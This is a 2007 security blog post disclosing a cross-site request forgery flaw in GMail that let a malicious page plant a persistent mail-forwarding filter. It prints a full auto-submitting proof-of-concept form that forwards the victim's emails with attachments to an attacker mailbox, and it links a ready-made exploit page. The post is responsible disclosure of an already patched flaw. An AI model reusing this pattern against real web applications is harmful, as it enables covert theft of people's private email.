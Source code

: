 ```yaml
---
title: Google GMail E-mail Hijack Technique
author: petko-d-petkov
date: Tue, 25 Sep 2007 18:50:33 GMT
template: post.jade
---
```


In this post I am going to show you how someone can remotely install a simple, persistent filter within a GMail account and download all previous as well as snoop onto all future email conversations.

The following sequence of screenshots describes how the attack works.

<div class="screen">[![GGEHT Seq1](/files/2007/09/ggeht-seq1-248x150.jpg "GGEHT Seq1")](/files/2007/09/ggeht-seq1.jpg) [![GGEHT Seq2](/files/2007/09/ggeht-seq2-248x150.jpg "GGEHT Seq2")](/files/2007/09/ggeht-seq2.jpg) [![GGEHT Seq3](/files/2007/09/ggeht-seq3-248x150.jpg "GGEHT Seq3")](/files/2007/09/ggeht-seq3.jpg)</div>

The victim visits a malicious page while being logged into GMail. Upon that, the page performs a `multipart/form-data` `POST` to one of the GMail alternative interfaces and injects a filter into the victim's filter list. In the example above, the attacker writes a filter, which simply looks for emails with attachments and forward them to an email of their choice. This filter will automatically transfer all emails matching the rule. Keep in mind that future emails will be forwarded as well. The attack will remain **present** for as long as the victim has the filter within their filter list, even if the initial vulnerability, which was the cause of the injection, is fixed by Google.

The technique used in this example is known as Cross-site request forgery, or simply CSRF. I am not planning to go into details how it works. Just look it up on this blog or with your favourite search engine.

I am not planning to release the details of this vulnerability for now. The exploit was verified by [Ryan Naraine](http://blogs.zdnet.com/security/) and several close friends. It does work and it is nasty if you ask me.

**UPDATE 2007/09/28**: I promised to release the POC as soon as Google fixes the vulnerability. Well they did. So, here are the details:

    <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    	<input type="hidden" name="cf2_emc" value="true"/> 
    	<input type="hidden" name="cf2_email" value="evilinbox@mailinator.com"/> 
    	<input type="hidden" name="cf1_from" value=""/> 
    	<input type="hidden" name="cf1_to" value=""/> 
    	<input type="hidden" name="cf1_subj" value=""/> 
    	<input type="hidden" name="cf1_has" value=""/> 
    	<input type="hidden" name="cf1_hasnot" value=""/> 
    	<input type="hidden" name="cf1_attach" value="true"/> 
    	<input type="hidden" name="tfi" value=""/> 
    	<input type="hidden" name="s" value="z"/> 
    	<input type="hidden" name="irf" value="on"/> 
    	<input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
    </form> 
    <script> 
    	document.forms[0].submit();
    </script>

_The actual exploit can be launched from [here](/files/2007/09/ggeht-exploit.htm). It makes use of a CSRF redirection utility to simplify the process._
